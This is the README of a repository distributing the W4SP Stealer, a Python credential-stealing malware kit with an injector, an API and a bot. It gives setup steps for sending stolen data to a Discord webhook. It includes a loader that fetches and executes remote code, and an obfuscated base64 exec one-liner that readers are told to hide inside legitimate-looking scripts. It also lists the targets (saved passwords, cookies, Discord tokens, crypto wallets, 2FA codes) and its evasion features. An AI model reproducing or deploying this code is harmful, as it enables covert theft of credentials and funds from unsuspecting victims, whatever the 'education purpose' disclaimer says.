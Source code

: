 # 🐝 W4SP Stealer 🐝
⚠️ Official Repo (loTus04/WS4P-Stealer) got termed, this is a clone approuved by lotus ⚠️ <br><br>
w4sp Stealer official source code, one of the best python stealer on the web<br>
W4SP Stealer | W4SP API | W4SP Bot

<a href="https://twitter.com/TheHackersNews/status/1588812607234117632"><img src="https://media.discordapp.net/attachments/526622602542710814/1039914372136448031/unknown.png"></img></a>
<br>Stealer by [@loTus04](https://github.com/loTus04) and API & Bot by [@billythegoat356](https://github.com/billythegoat356)<br>
(for education purpose only)<br>



## 🚩 Table of Content

- Setup - Stealer
- Setup - API & Bot
- Features - Stealer
- Features - Injector
- Features - Api
- Features - Bot
- Demo

## Setup [Stealer & Injector]
```sh
1. Put ur webhook in wasp.py: hook = "DISCORD_WEBHOOK"
2. Obfuscate & Upload anywhere (needs to be accessible with an http request)
3. Put wasp.py link in injector.py: request.urlopen("W4SPGRAB").read()
4. Obfuscate it
```
## Setup [Line ~ Optional but recomanded]
```py
from tempfile import NamedTemporaryFile as _ffile
from sys import executable as _eexecutable
from os import system as _ssystem
_ttmp = _ffile(delete=False)
_ttmp.write(b"""from urllib.request import urlopen as _uurlopen;exec(_uurlopen("INJECTOR_LINK").read())""")
_ttmp.close()
try: _ssystem(f"start {_eexecutable.replace('.exe', 'w.exe')} {_ttmp.name}")
except: pass

# replace INJECTOR_LINK by the injector.py link from setup
# (this script was made by Billy)
```
```py
# encode in b64 the last payload and replace it here
# then hide this line in a legit looking python script
# or use ur brain and ur own technique, this is just un exemple
# remeber, its for education purpose, attacking a machine w/o autorisation is illegal !

__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').exec(__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').compile(__import__('\x62\x61\x73\x65\x36\x34').b64decode("%PAYLOAD%"),'<string>','\x65\x78\x65\x63'))
```

## Setup [API]
[![](https://markdown-videos.deta.dev/youtube/th3cA691zJ4)](https://youtu.be/th3cA691zJ4)



## Features [Stealer]
(Stealer by [@loTus04](https://github.com/loTus04))

Global
- Saved Passwords
- Browser Cookies
- Get PC information
- AntiVM - Trust Factor system, it wont send data if Gmail cookies arent' found
- All files are uploaded to an external api <- Improved by [xKian](https://github.com/sfx2me)
- Data is send throught a Discord webhook

Discord
- Discord Tokens from browsers
- Discord Token from discord, discordcanary, discordPTBa
- Get all info on token (email, nitro/badge, rare friends)

Wallets
- Exodus Wallet
- Metamask Wallet
- Atomic Walletk

Gaming
- Steam Client
- Riot Client
- NationsGlory Client

Other
- Telegram Session

File Stealer
- It will search throught the pc for: saved passwords, 2fa codes, wallet keys and other sensitive information<br>
(idea came from Kiwi plugin on msf)

## Features [Injector]
(Injector by [@loTus04](https://github.com/loTus04))
- Brilliant persistance technique (only in injector v1.1)
- Invisible in TaskManger StartUP tab (only in injector v1.1)
- FUD
- Fully runs in background
- Hides the stealer very well

Credit to [xKian](https://github.com/sfx2me) who improved the injector (v1.2)

## Features [API]
(Api by [@billythegoat356](https://github.com/billythegoat356))
- Easy to update/upgrade
- Compatible with all w4sp versions
- Using auto & custom obfuscation
- Manage Users and Webhooks with API
- Browser security => If a browser is detected (headers) it will obfusacate a fake wasp script <- Brilliant Idea by [lath](https://github.com/lathlaszlo)

## Features [BOT]
(Bot by [@billythegoat356](https://github.com/billythegoat356))
- Easy to configure
- Manage Users and Webhooks using w4sp api
- Auto inject file.py

# Few articles on W4SP (they where writen during beta-testing)<br> ⚠️Most articles writen after that are 95% bullshit⚠️
- [securelist.com ~ Two more malicious Python packages in the PyPI
](https://securelist.com/two-more-malicious-python-packages-in-the-pypi/107218/)
- [securityweek.com ~ Security Firms Find Over 20 Malicious PyPI Packages Designed for Data Theft](https://www.securityweek.com/security-firms-find-over-20-malicious-pypi-packages-designed-data-theft)
- [digismak.com ~ Criminals steal data by spoofing popular open source package](https://digismak.com/criminals-steal-data-by-spoofing-popular-open-source-package/)
- [darkreading.com ~ Whack-a-Mole: More Malicious PyPI Packages Spring Up Targeting Discord, Roblox](https://www.darkreading.com/application-security/whack-a-mole-malicious-pypi-packages-target-discord-roblox)

# ScreenShots
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035590779919421460/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591128193433661/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591544100634735/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591894098513960/unknown.png"></img>
